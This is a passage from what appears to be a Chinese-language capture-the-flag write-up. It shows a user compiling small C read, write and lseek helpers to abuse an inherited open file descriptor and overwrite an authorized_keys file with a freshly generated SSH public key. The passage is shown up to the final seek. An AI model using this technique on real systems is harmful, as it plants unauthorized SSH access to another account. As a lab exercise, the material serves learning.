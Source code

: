 ```
 write(atoi(argv[1]), argv[2], strlen(argv[2]));
`}`
bob@challenge:~$ gcc -o write write.c
bob@challenge:~$ cat lseek.c
#include &lt;sys/types.h&gt;
#include &lt;unistd.h&gt;
#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;string.h&gt;

int main(int argc, char *argv[]) `{`
 printf("seek to position %s on fd %sn", argv[2], argv[1]);
 lseek(atoi(argv[1]), atoi(argv[2]), SEEK_SET);
`}`

bob@challenge:~$ gcc -o lseek lseek.c
```

先看看这些工具的作用。首先，我们尝试读取，然后写入文件描述符3，但是读取总是返回0字节：

```
bob@challenge:~$ ./read 3
Read 0 bytes
bob@challenge:~$ ./write 3 hello
writing hello to fd 3
bob@challenge:~$ ./read 3
Read 0 bytes
```

原因是我们需要在文件中查找一个不是文件末尾的位置。让我们查找位置0，即文件的开头：

```
bob@challenge:~$ ./lseek 3 0
seek to position 0 on fd 3
bob@challenge:~$ ./read 3
Read 10 bytes
pointless bob@challenge:~$ ./read 3
Read 10 bytes
data
hellobob@challenge:~$ ./read 3
Read 0 bytes
```

现在好多了。

最后，我们需要利用上述程序。我们有两个选择：
- 像以前一样运行shell，然后使用我们的新工具将密钥写入授权键；或者，
- 使用上面的函数来编写一个新的工具来写入授权的键。
我们选择前者。大家可以试试后者作为练习。请注意，在写入数据之前，我们需要寻找位置0。重要的一点是要覆盖已经存在的“pointless”消息，因为它破坏了authorized_keys文件：

```
bob@challenge:~$ ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/bob/.ssh/id_rsa): bobkey
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in bobkey.
Your public key has been saved in bobkey.pub.
bob@challenge:~$ cat bobkey.pub
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC2PezJjFSI778OvONA5aqfM2Y2d0eYizOkcqTimy7dXfaEhSKnRSRyfwOfwOOaVpLdZW9NmfaPd5G8RY3n+3QwDIPv4Aw5oV+5Q3C3FRG0oZoe0NqvcDN8NeXZFbzvcWqrnckKDmm4gPMzV1rxMaRfFpwjhedyai9iw5GtFOshGZyCHBroJTH5KQDO9mow8ZxFKzgt5XwrfMzvBd+Mf7kE/QtD40CeoNP+GsvNZESxMC3pWfjZet0p7Jl1PpW9zAdN7zaQPH2l+GHzvgPuZDgn+zLJ4CB69kGkibEeu1c1T80dqDDL1DkN1+Kbmop9/5gzOYsEmvlA4DQC6nO9NCTb bob@challenge
bob@challenge:~$ ls -l bobkey.pub
-rw-r--r-- 1 bob bob 387 Apr 12 12:30 bobkey.pub
bob@challenge:~$ ./lseek 3 0
seek to position 0 on fd 3
```